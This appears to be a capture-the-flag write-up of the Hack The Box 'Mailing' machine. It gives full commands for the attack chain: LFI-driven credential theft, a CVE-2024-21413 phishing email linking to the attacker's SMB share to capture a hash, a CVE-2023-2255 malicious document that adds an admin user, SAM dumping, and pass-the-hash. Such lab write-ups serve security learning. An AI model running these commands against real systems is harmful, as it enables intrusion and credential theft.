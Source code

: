 ```yaml
---
description: >-
  Windows | easy | IIS server | LFI | hMailServer | CVE-2024-21413 Outlook |
  2024-21413 Libre Office
---
```


# Mailing



<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

On the website we can see an upload button to download pdf instruction for mail connection. with an email sent to maya@mailing.htb.



When we intercept it whith burp we can see an LFI. After looking for IIS intersting files we did check on hMailServer files to find the .ini files with Mysql credentials.





<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Lets use Hashcat to decrypt the hash :&#x20;

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

&#x20;Administrator:homenetworkingadministrator

&#x20;now that we have a password we looked for a another CVE and found CVE-2024-21413

[https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git)

```bash
python3 CVE-2024-21413.py --server "10.10.11.14" --port 465 --username "Administrator@mailing.htb" --password "homenetworkingadministrator" --sender "Administrator@mailing.htb" --recipient "maya@mailing.htb" --url "
\\OURIP\message
" --subject "frfr"
```

goal is to send a mail to maya with a malicious link. when she will click on it she will contact ou smb server and we will intercept her Hash.&#x20;





evil-winrm -i 10.129.231.40 -u maya -p 'm4y4ngs4ri'



m4y4ngs4ri



after using winpeas we can see some interesting things :&#x20;

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/elweth-sec/CVE-2023-2255" %}

in order to exploit this CVE we have first to generate a malicious odt file  with our injected&#x20;

```
python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'file.odt'
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>



crackmapexec smb 10.129.231.40 -u maya -p "m4y4ngs4ri" --sam



<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::

crackmapexec smb 10.129.231.40 -u localadmin -H "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae" -x "cmd.exe /c type c:\users\localadmin\Desktop\root.txt"
